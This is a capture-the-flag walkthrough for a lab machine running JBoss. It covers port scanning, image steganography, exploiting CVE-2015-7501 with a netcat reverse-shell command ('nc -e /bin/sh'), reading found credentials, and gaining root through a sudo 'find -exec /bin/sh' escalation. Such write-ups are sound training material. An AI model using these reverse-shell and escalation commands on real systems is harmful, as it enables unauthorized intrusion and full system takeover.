 # Tony The Tiger

## Reconnaissance

Ip addr : 10.10.214.90

## Scanning & Enumeration

* Nmap Scan

```shell
nmap -A -T4 -oN nmap/all_port 10.10.214.90
```

the scan result can be found [here](nmap/all_port)

We have the following open ports and services running :

| port number | service | version |
| --- | ---| --- |
| 22 | ssh | OpenSSH 6.6.1p1(Ubuntu) |
| 80 | http | Apache httpd 2.4.7 ((Ubuntu)) |
| 1090 | java-rmi | Java RMI |
| 1091 | java-rmi | Java RMI |
| 1098 | java-rmi | Java RMI |
| 1099 | java-object |Java Object Serialization |
| 4446 | java-object |Java Object Serialization |
| 5500 | hotline ? |  |
| 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 8083 | http |  JBoss service httpd |

* Some Stenography

We are invinted to read tony **blog** to find a flag.
After reading the first post we found some hint about hidden data in image posted in the blog.
![hint](img/hint.png)
So we start doing  somme stego on image on the website, and  we got our flag.
![stego](img/tony-flag.png)
by reading the post 2 source file with vim.

* [CVE-2015-7501](https://www.cvedetails.com/cve/CVE-2015-7501/)

The creator of the room , give us a [exploit](assets/exploit/jboss/exploit.py) for this vulnerability to use against ours target.

## Exploitation

* exploiting CVE 2015-7501

this exploit allow us to run command on our target so we run

```shell
python exploit.py 10.10.214.90:8080  'nc -e /bin/sh $RHOST $RPORT'
```

and get a user shell
![shell](img/user-shell.jpg)

* Enumarating the machine
  
some some note files. [here]
afters reading theme find the [credentials] of the user jboss
![shell Jboss](img/shell-jboss.png)

### Privilege Escalion

* sudo -l
  
![sudo -l](img/sudo-l.png)
we can run the find command with root privilege without password.

* Time to get root
  
using [GTFObin](https://gtfobins.github.io/gtfobins/find/) this is to much easy to get.

```shell
sudo find . -exec /bin/sh \; -quit
```

and root here :
![root shell](img/shell-root.png)

* Get The root flag

at /root/root.txt we found a base64 encode of the root flag
decode it with <https://www.base64decode.org/> and crack the md5 result with <https://crackstation.net/>
